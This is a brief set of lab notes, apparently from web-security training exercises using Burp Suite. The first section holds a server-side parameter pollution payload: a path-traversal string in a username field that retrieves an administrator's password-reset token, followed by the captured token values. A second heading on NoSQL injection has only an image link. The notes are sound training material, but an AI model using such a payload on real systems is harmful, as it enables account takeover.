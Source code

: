 # **Laboratorio: Explotación de la contaminación de parámetros del lado del servidor en una URL REST**

![Untitled](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/Untitled%207.png)

```sql
csrf=oLLT8aZrRX5bjzqCFrN558vXcJfsLI8c&username=../../v1/users/administrator/field/passwordResetToken%23

csw28d057tzisrpgpd17g1k3hvjatx82
forgot-password?passwordResetToken=b0a6ucz7kpu8zp2alylrtfzj20hygemr
```

# **Lab: Detecting NoSQL injection**

![Untitled](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/Untitled%208.png)
